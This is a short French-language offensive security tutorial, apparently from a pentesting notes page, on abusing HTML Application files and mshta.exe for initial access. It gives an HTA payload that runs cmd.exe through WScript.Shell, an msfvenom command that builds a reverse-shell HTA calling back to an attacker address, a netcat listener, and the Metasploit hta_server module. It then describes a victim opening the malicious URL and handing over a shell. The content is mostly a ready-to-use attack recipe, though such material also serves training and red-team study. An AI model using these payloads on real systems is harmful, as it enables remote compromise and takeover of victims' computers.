 # An HTML Application - HTA

An HTML Application - HTA  qui sont  des pages `HTML dynamiques` contenant JScript et VBScript. 

L'outil `mshta.exe` LOLBINS (Living-of-the-land Binaries) est utilisé pour exécuter les fichiers HTA . Il peut être exécuté seul ou automatiquement depuis Internet Explorer.

Soit le fichier `index.hta` notre charge utile pour exécuter `cmd.exe`

```html
<html>
	<head>
		<script>
			var c = 'cmd.exe'
			new ActiveXObject('WScript.Shell').Run(c);
		</script>
	</head>
	<body>
		<script>
			self.close();
		</script>
	</body>
</html>
```

## HTA Reverse Connection

Nous pouvons créer une charge utile de shell inversé avec `msfvenom`. Une fois que la victime visite l’URL malveillante et clique sur Exécuter, nous récupérons la connexion.

```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.232.37 LPORT=443 -f hta-psh -o payload.hta
```

```sh
nc -nlvp 443
```

## Malicious HTA via Metasploit

```sh
use exploit/windows/misc/hta_server
```

Sur la machine victime, une fois que nous visitons le fichier HTA malveillant fourni comme URL par Metasploit , nous devrions recevoir une connexion inversée.

